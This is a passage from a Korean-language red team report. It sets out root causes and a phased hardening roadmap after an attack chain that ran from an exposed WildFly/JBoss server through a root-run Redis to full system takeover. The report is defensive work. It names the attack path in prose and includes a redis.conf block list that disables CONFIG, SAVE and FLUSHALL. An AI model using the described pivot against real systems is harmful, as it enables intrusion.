1.  **공격 표면 관리 실패:** 2017년에 공개된 치명적 취약점을 가진 `WildFly 10` 서버가 아무런 보호 조치(WAF, IPS) 없이 인터넷에 노출되어 있다.
2.  **평면적인 내부망 구조:** DMZ의 웹 서버가 내부 DB 서버의 관리 포트(Redis)에 접근할 수 있었으며, 이는 내부망 세그멘테이션이 효과적으로 동작하지 않았음을 의미한다.
3.  **최소 권한 원칙 위배:** DB 서버의 Redis 프로세스를 **`root` 권한**으로 구동한 것은, 단순 서비스 장애로 끝날 수 있었던 침해를 **시스템 전체 탈취**로 격상시킨 결정적인 원인이다.

### 8.2. 보안 강화 로드맵

#### Phase 1: 긴급 조치 (24h)
**목표:** 현재 위협 제거 및 출혈 차단

1. **JBoss/WildFly 격리 및 패치:** 해당 서버를 외부망에서 즉시 분리하거나 최신 버전으로 업그레이드. 불가능할 경우 WAF로 `/invoker/*` 경로 접근 차단
2. **Redis 보안 하드닝:** `bind 127.0.0.1`, `requirepass` 설정, `protected-mode yes` 적용
3. **SSH 키 전수 조사:** 모든 서버의 `authorized_keys` 파일을 점검하여 비인가 키 삭제

#### Phase 2: 구조 개선 (1 Month)
**목표:** 내부 확산 방지 및 권한 최소화

1. **마이크로 세그멘테이션:** NSG 규칙을 강화하여, 웹 서브넷에서 DB 서브넷으로 오직 필요한 포트(`3306`)만 허용하고 나머지는 명시적으로 Deny
2. **프로세스 권한 분리:** 모든 애플리케이션 데몬(Redis, JBoss 등)을 Non-Root 전용 계정으로 구동하도록 `systemd` 서비스 파일 수정
3. **위험한 명령어 비활성화:** `redis.conf`에서 `rename-command CONFIG ""` 설정을 통해 런타임 중 설정 변경 기능 원천 차단

#### Phase 3: 체질 개선 (6 Months)
**목표:** 침해 탐지 능력 확보 및 예방 체계 구축

1. **내부망 트래픽 분석(NDR):** Zeek, Suricata 등을 도입하여 내부 서브넷 간의 비정상적인 통신(예: 웹 서버 → DB 서버의 Redis 포트 접속)을 실시간으로 탐지
2. **정기적 취약점 관리:** 정기적인 취약점 스캔 및 모의 해킹을 제도화하여 EOL 자산을 식별하고 폐기하는 프로세스 수립
3. **보안 구성 관리 자동화:** Ansible, Chef 등을 사용하여 모든 서버에 일관된 보안 설정(하드닝)을 강제하고, 설정 변경을 추적 및 감사

### 8.3. 기술적 세부 권고

Red Team은 특히 이번 공격의 결정적인 경로가 된 **Redis 보안 설정**에 대해 다음과 같은 구체적인 설정을 즉시 적용할 것을 권고한다.

```bash
# /etc/redis/redis.conf 권장 설정 예시

# 1. 네트워크 바인딩 제한 (로컬에서만 접속 가능하도록)
bind 127.0.0.1 -::1

# 2. 보호 모드 활성화 (외부 접속 시 인증 강제)
protected-mode yes

# 3. 인증 비밀번호 설정 (복잡성 필수)
requirepass "YOUR_SUPER_COMPLEX_PASSWORD_HERE"

# 4. 위험한 명령어 비활성화 또는 이름 변경 (Critical)
# 공격자가 CONFIG 명령어로 설정을 바꾸지 못하게 원천 차단
rename-command CONFIG ""
rename-command SAVE ""
rename-command BGSAVE ""
rename-command FLUSHALL ""
rename-command FLUSHDB ""
```

### 8.4. 결론

Legacy Service Pivot 시나리오는 **"오래된 기술 부채"**가 어떻게 보안 사고의 도화선이 되는지를 명확히 보여주었다. 외부의 낡은 문(JBoss)을 통해 들어온 공격자는 내부의 허술한 관리(Redis Root) 덕분에 왕좌(Root)를 차지할 수 있었다.

방어자는 **"경계가 뚫리는 것은 시간문제"**임을 인정해야 한다. 따라서 침투를 100% 막는 것보다, 침투한 공격자가 내부에서 자유롭게 이동하지 못하도록 **네트워크를 구획화**하고, 권한을 잘게 쪼개어 **피해를 국지화**하는 **제로 트러스트 아키텍처**로의 전환이 시급하다.

---